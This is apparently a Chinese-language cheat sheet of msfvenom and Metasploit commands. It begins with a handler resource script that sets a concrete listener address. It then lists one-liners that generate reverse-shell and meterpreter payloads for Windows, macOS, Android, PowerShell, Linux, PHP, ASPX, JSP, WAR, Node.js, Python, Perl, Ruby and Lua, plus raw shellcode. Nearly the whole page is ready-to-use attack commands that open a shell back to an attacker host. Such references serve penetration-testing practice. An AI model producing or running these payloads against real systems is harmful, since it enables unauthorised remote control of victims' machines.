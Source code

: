 ```yaml
---
title: msfvenom-生成攻击载荷-命令速查
categories:
- tools
tags:
- tools
---
```


参考资料：
- github-Micro8
- https://github.com/rapid7/metasploit-framework/wiki/Metasploit-5.0-Release-Notes
- https://www.hackers-arise.com/single-post/2017/06/08/Metasploit-Basics-Part-7-Adding-a-New-Module-EternalBlue

msfvenom -l payload 列出所有可用载荷

截至2019.3.4日，msf的版本为：metasploit v5.0.9-dev

| 命令 | 之前 | 现在 |
|---|---|---|
| 更新 | msfupdate | apt update; apt install metasploit-framework |
|handler监听| 命令1 | handler -H 10.10.14.7 -P 6678 -p linux/x86/meterpreter/reverse_tcp |
|添加exploit | 命令2 | 命令3 |

命令1：
msfconsole -r job.rc

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.7
set LPORT 7766
run
```

命令2：`新建/root/.msf4/modules/exploits/new/xx.rb`

命令3: `新建usr/share/metasploit-framework/modules/exploits/unix/webapp/xx.rb`

>reload_all 
当载入新的metasploit 插件/payload，不用重启metasploit。

## windows:
```
handler -H ip -P 4444 -p windows/meterpreter/reverse_tcp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=4444 -f exe -o payload.exe
```
## mac:
```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
LPORT=攻击机端口 -f macho -o payload.macho
```
## android:
```
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f apk -o payload.apk
```
## powershell:
```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```
## linux:
```
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf
```
## php:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=
<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >>
shell.php
```
## aspx:
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
```
## jsp:
```
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻
击机端口 -f raw -o payload.jsp
```
## war:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -
o payload.war
```
## nodejs:
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.js
```
## python:
```
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -
f raw -o payload.py
```
## perl:
```
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.pl
```
## ruby:
```
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.rb
```
## lua:
```
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.lua
```
## windows shellcode:
```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -f c
```
## linux shellcode:
```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f c
```
## mac shellcode:
```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
LPORT=攻击机端口 -f c
```
